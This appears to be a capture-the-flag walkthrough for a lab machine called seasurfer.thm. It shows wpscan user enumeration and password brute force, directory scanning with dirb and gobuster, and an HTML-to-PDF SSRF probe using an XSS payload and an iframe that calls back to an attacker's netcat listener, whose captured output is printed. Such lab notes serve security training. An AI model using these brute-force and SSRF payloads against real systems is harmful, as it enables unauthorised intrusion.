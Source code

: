 ## brute force
```bash
wpscan --url http://seasurfer.thm -e u
# it will say that only kyle exists

wpscan --url http://seasurfer.thm -U kyle -P /usr/share/wordlists/rockyou.txt
```
## dirb
```bash
dirb http://seasurfer.thm
# result
http://seasurfer.thm/atom
```
nothing interesting
## gobuster
```bash
gobuster -w /usr/share/wordlists/dirb/big.txt dir -u http://seasurfer.thm/ 
# result
http://seasurfer.thm/adminer/
```
# adminer
`http://seasurfer.thm/adminer/` is smth like phpmyadmin
# internal.seasurfer.thm
add this to hosts file
## manual enumeration
there is `index.php` and `output.php`
```http
http://internal.seasurfer.thm/output.php?name=%27&payment=%27&comment=%27&item1=%27&price1=%27
```
## dirb
```bash
dirb http://internal.seasurfer.thm
# result
/invoices
/maintenance
```
## HTML to PDF SSRF
https://docs.google.com/presentation/u/0/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent?pli=1

html to pdf generators are vulnerable sometimes.
`<img src=x onerror=document.write(1337)>` will show that it is.
`<iframe src="http://10.8.97.245:1234/> ` and netcat listener will reveal
```
└─$ nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.8.97.245] from (UNKNOWN) [10.10.137.138] 49178
GET /%3E%20%3Cbr%3EAdditional%20information:%20%3C/td%3E%3C/tr%3E%3C/table%3E%3C/td%3E%3C/tr%3E%3Ctr%20class= HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://internal.seasurfer.thm/invoice.php?name=%3Ciframe+src%3D%22http%3A%2F%2F10.8.97.245%3A1234%2F%3E+&payment=Credit+card&comment=&item1=&price1=2&id=11042024-XqHlo0EgQVID8PCHZ8uR
Connection: Keep-Alive
Accept-Encoding: gzip
```